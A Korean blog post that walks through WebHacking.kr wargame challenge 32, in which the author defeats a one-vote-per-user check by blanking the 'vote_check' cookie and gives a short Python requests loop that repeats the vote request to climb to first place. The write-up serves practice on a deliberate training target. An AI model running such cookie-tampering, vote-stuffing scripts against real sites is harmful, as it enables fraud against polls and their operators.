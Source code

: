 ```yaml
---
layout: post
title: 'WebHacking.kr_32'
date: 2019-09-19
author: JSB
color: rgb(100,50,100)
cover: '/screenshot/WebHacking/webhacking.kr.jpg'
tags: wargame.kr webhacking
---
```


> 공부한것을 쓰려했지만 아직 공부중인 것을 끝내지못해 문제풀이로 대체한다!

# WebHacking.kr 32번

<img src="/screenshot/WebHacking/3/1.png">

	문제에 들어가면 다음과 같은 화면에 닉네임을 누르면 투표를 할 수있게 되어있다.
    이 투표수를 1위로 찍으면 풀리는 문제인 것 같다.

<img src="/screenshot/WebHacking/3/2.png">

	2번이상 투표를 하려하면 이미 투표가 끝났다고 한다.
    하지만 내가 투표를 했는지 안했는지 확인하는 것을 발견하여
    변경할 수 있다면 이 투표를 조작할 수 있을지도 모른다.

<img src="/screenshot/WebHacking/3/3.png">

	빙고!
    vote_check 라는 쿠키가 이름부터 나의 투표를 막을 것 같이 생겼다.
    하지만 이 값을 지우고 투표하고 지우고 클릭하고하면 어느세월에 1위를 찍겠는가...
    그래서 이걸 자동으로 해주는 파이썬코드를 짰다.

<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">import</span>&nbsp;requests</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">url&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#63a35c">'https://webhacking.kr/challenge/code-5/'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">cookie&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;{</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#63a35c">'PHPSESSID'</span>:<span style="color:#63a35c">'754mv31u9mtbiq3t90g47617r4'</span>,&nbsp;<span style="color:#999999">#&nbsp;&lt;=&nbsp;자신의&nbsp;or&nbsp;아무&nbsp;세션값</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#63a35c">'vote_check'</span>:<span style="color:#63a35c">'&nbsp;'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">}</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">for</span>&nbsp;i&nbsp;<span style="color:#a71d5d">in</span>&nbsp;<span style="color:#066de2">range</span>(<span style="color:#0099cc">0</span>,<span style="color:#0099cc">13</span>):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;param&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;{<span style="color:#63a35c">'hit'</span>:<span style="color:#63a35c">'자신의&nbsp;아이디'</span>}&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">#&nbsp;&lt;=&nbsp;자신의&nbsp;닉네임</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;requests.get(url,params<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>param,cookies<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>cookie)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#066de2">print</span>(<span style="color:#63a35c">"vote&nbsp;complete"</span>)</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

	for문의 range 함수의 2번째 인자에 올릴만큼의 투표수를 넣으면 된다.